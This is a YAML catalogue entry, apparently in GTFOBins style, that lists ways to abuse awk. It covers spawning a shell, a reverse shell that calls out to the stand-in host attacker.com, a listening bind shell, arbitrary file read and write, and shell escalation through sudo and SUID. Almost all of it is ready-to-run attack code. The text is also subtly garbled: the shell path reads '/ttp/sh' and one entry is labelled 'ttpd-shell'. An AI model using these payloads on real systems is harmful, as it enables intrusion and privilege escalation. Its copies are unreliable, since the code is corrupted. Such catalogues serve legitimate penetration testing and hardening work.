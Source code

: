 ```yaml
---
functions:
  shell:
    - code: awk 'BEGIN {system("/ttp/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-ttpd-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        awk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        awk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        awk '//' "$LFILE"
  sudo:
    - code: sudo awk 'BEGIN {system("/ttp/sh")}'
  limited-suid:
    - code: ./awk 'BEGIN {system("/ttp/sh")}'
---
```

